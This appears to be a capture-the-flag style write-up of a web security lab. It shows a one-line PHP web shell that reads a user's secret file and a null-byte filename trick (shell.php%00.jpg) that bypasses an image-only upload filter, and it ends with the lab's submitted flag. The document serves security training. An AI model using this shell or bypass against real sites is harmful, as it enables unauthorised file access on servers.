






### Web shell upload via obfuscated file extension : PRACTITIONER

---


> We need to read contents of the `/home/carlos/secret` file.
> Given login credentials `wiener:peter`.


> Logging in as wiener.



> We see this my-account page.




> Trying to upload a php shell to obtain the secret file, while having BURPSUITE PROXY HTTP history open
```PHP
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
> `shell.php`.

> Capturing the `POST` request and its response.



> We see that we can only upload JPG and PNG files.
> If we try obfuscating the attack using null bytes.
```
shell.php%00.jpg
```
> And send the `POST` request again.



> We see that the file `shell.php` has been uploaded, meaning we bypassed the client side filters.

> If we now go back to the my-account page and observe the `GET` request responsible for fetching the `shell.php` file.



> If we change the path to `shell.php` only and send it should work as the file we uploaded has the name `shell.php` only.



> We see the secret.
> Copying it and submitting to complete the lab.
```
icU4hTnFLrVKfeFHIZYf6rfm0IW2z49e
```

----
